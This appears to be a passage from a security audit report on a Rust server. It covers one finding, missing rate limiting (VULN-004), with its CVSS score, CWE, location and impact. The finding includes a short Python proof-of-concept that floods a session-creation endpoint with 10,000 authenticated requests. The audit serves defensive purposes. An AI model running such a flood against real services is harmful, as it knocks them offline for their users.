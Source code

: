 **Priority:** 🔴 **IMMEDIATE - AUTHENTICATION BYPASS**

**Estimated Effort:** 2-3 days

---

### VULN-004: Rate Limiting Not Implemented

**CVSS v3.1 Score:** 7.5 (High) *(Downgraded from 9.1 Critical)*

**CVSS Vector:** CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H

**CWE:** CWE-770 (Allocation of Resources Without Limits or Throttling)

**OWASP:** A04:2021 – Insecure Design

**Vulnerability Description:**
`RateLimitMiddleware` exists as a placeholder but performs no actual rate limiting. While internal authentication brute-force is no longer a concern, DoS attacks and resource exhaustion remain significant threats.

**Location:**
- File: `src/server/middleware.rs`
- Lines: 24-42
- Issue: Struct exists but no implementation

**Impact on External JWT Architecture:**
- ✅ **Reduced Risk**: No password brute-force attacks (eliminated)
- ⚠️ **Remaining Risk**: Session creation DoS still possible
- ⚠️ **Remaining Risk**: API endpoint flooding
- ⚠️ **Remaining Risk**: WebSocket connection exhaustion

**Attack Vector:**

**DoS Attack:**
```python
import asyncio
import aiohttp

async def flood_attack():
    async with aiohttp.ClientSession() as session:
        # Valid JWT token (from legitimate user)
        headers = {'Authorization': 'Bearer eyJhbGc...'}

        tasks = []
        # Send 10,000 session creation requests
        for i in range(10000):
            task = session.post('http://target:8080/api/v1/sessions', headers=headers)
            tasks.append(task)

        await asyncio.gather(*tasks)
        print("DoS successful - no rate limiting")

asyncio.run(flood_attack())
```
